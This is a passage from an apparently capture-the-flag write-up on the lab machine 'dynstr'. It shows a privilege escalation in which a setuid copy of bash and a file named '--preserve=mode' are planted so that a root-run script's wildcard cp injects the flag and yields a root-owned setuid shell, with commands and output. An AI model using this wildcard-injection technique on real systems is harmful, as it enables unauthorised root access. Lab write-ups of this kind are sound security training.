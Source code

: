 ## Stage Files

OK, so we created a file called .version in /dev/shm, ran the script as root, then we see the file is copied to /etc/bind/named.bindmgr and is owned by root. We know the * in the script means it will take all files it finds in the current folder and create a single command line from it. We can take advantage of this by staging files that will give us a bash we can run as our user in the context of root.

First we want to copy bash in to our working folder /dev/shm and set the SETUID bit on it. SETUID is defined as:

```text
s (setuid) means set user ID upon execution. If setuid bit turned on a file, user executing that executable file gets the permissions of the individual or group that owns the file.
```

Then we need to create another file called **--preserve=mode**, it doesn't need any contents. This is because when the script copies bash it will remove the setuid bit we've just set, which is explained [here](https://man7.org/linux/man-pages/man1/cp.1.html).

Let's do it:

```text
bindmgr@dynstr:/tmp/tmp$ cp /bin/bash .
bindmgr@dynstr:/tmp/tmp$ chmod +s bash
bindmgr@dynstr:/tmp/tmp$ echo "" > "--preserve=mode"

bindmgr@dynstr:/dev/shm$ ls -lsa
total 1164
   0 drwxrwxrwt  2 root    root        100 Oct  6 23:21  .
   0 drwxr-xr-x 17 root    root       3940 Oct  6 20:57  ..
1156 -rwsr-sr-x  1 bindmgr bindmgr 1183448 Oct  6 23:20  bash
   4 -rw-rw-r--  1 bindmgr bindmgr       1 Oct  6 23:21 '--preserve=mode'
   4 -rw-rw-r--  1 bindmgr bindmgr       2 Oct  6 23:10  .version

bindmgr@dynstr:/dev/shm$ sudo /usr/local/bin/bindmgr.sh
sudo: unable to resolve host dynstr.dyna.htb: Name or service not known
[+] Running /usr/local/bin/bindmgr.sh to stage new configuration from /dev/shm.
[+] Creating /etc/bind/named.conf.bindmgr file.
[+] Staging files to /etc/bind/named.bindmgr.
cp: cannot stat '*': No such file or directory
[+] Checking staged configuration.
[-] ERROR: The generated configuration is not valid. Please fix following errors: 
    /etc/bind/named.conf.bindmgr:2: open: /etc/bind/named.bindmgr/*: file not found

bindmgr@dynstr:/dev/shm$ cd /etc/bind/named.bindmgr
bindmgr@dynstr:/etc/bind/named.bindmgr$ ls -lsa
total 1168
   4 drwxr-sr-x 2 root bind    4096 Oct  6 23:21 .
   4 drwxr-sr-x 3 root bind    4096 Oct  6 23:21 ..
1156 -rwsr-sr-x 1 root bind 1183448 Oct  6 23:21 bash
   4 -rw-rw-r-- 1 root bind       2 Oct  6 23:21 .version
```
